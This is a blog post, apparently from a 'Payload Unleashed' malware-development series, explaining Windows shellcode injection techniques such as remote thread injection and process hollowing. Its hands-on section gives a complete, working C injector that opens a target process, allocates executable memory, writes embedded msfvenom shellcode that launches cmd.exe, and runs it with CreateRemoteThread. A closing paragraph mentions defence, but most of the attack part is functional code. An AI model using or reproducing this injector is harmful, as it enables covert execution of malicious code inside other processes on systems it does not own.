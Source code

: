 ```yaml
---
layout: single
title: "Payload Unleashed: Shellcode Injection"
date: 2024-03-01
classes: wide
header:
  teaser: /assets/images/maldev.png
categories:
  - infosec
tags:
  - windows
  - malware
  - payload-unleashed
---
```

Shellcode is a snippet of machine code typically written in assembly language. It's designed to perform a specific task when executed, often granting the attacker control over the compromised system. 

Shellcode injection involves the insertion and execution of such malicious code within the memory space of a target process, bypassing traditional security measures.

# Techniques for Shellcode Injection

## 1. Process Injection:

   - **Remote Thread Injection**: This technique involves creating a remote thread in the target process and directing it to execute the shellcode.
   - **Process Hollowing**: In process hollowing, a legitimate process is spawned in a suspended state, its memory contents replaced with the attacker's shellcode, and then resumed to execute the malicious code.

## 2. Code Cave Injection:

   - **Code Cave**: A code cave refers to an unused or padding section of executable memory within a process. Attackers exploit these code caves to inject and execute their shellcode, often evading detection.
   - **Return-Oriented Programming (ROP)**: ROP chains leverage existing code fragments within a process, known as gadgets, to perform malicious operations. Attackers construct a sequence of gadgets that ultimately lead to the execution of the injected shellcode.

In this blog post we will cover the **Remote Thread Injection**. 

# Hands-On: Shellcode Injection with C Code Snippet 
## Understanding Shellcode Injection Process

Before delving into the code snippet, let's understand the purpose of each function used in the shellcode injection process and its significance within the attack:

1.   **Opening the Target Process**: Use [`OpenProcess`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) to open a handle to the target process identified by its process ID.
    
2.   **Memory Allocation**: Use [`VirtualAllocEx`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) to allocate memory within the address space of the target process.
    
3.   **Shellcode Injection**: Use [`WriteProcessMemory`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) to write the shellcode to the allocated memory within the target process.
    
4.   **Remote Thread Creation**: Use [`CreateRemoteThread`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) to create a remote thread in the target process, specifying the entry point as the allocated memory containing the shellcode.
    
5.   **Cleanup**: Close handles and release allocated memory after the execution of the remote thread.


```C
#include <windows.h>
#include <stdio.h>

//msfvenom -a x86 --platform windows -p windows/exec CMD="cmd.exe" EXITFUNC=thread -f c
unsigned char shellcode[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x6d\x64\x2e\x65\x78\x65\x00";


int main()
{
    // Open the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, <TARGET_PROCESS_ID>); // Replace <TARGET_PROCESS_ID> with the process ID of the target process
    if (hProcess == NULL) {
        printf("Failed to open target process. Error code: %d\n", GetLastError());
        return 1;
    }

    // Allocate memory within the target process
    LPVOID pAllocatedMemory = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (pAllocatedMemory == NULL) {
        printf("Failed to allocate memory in target process. Error code: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }

    // Write the shellcode to the allocated memory in the target process
    if (!WriteProcessMemory(hProcess, pAllocatedMemory, shellcode, sizeof(shellcode), NULL)) {
        printf("Failed to write shellcode to target process. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pAllocatedMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Create a remote thread in the target process to execute the shellcode
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pAllocatedMemory, NULL, 0, NULL);
    if (hThread == NULL) {
        printf("Failed to create remote thread. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pAllocatedMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Wait for the remote thread to terminate
    WaitForSingleObject(hThread, INFINITE);

    // Clean up
    CloseHandle(hThread);
    VirtualFreeEx(hProcess, pAllocatedMemory, 0, MEM_RELEASE);
    CloseHandle(hProcess);

    return 0;
}

```


Remember to collect the desired PID of the process you want to inject the shellcode to and change it for the `<TARGET_PROCESS_ID>` variable in the OpenProcess() function call. 
# Conclusion

Shellcode injection represents a formidable challenge in the realm of cybersecurity, enabling attackers to covertly execute malicious code within legitimate processes. Understanding the intricacies of shellcode injection, along with implementing robust detection and mitigation strategies, is essential for organizations to defend against this stealthy threat. By staying vigilant and adopting a multi-layered security approach, organizations can bolster their defenses and mitigate the risks posed by shellcode injection in today's dynamic threat landscape. Explore more insights into cybersecurity challenges and solutions in our ongoing series.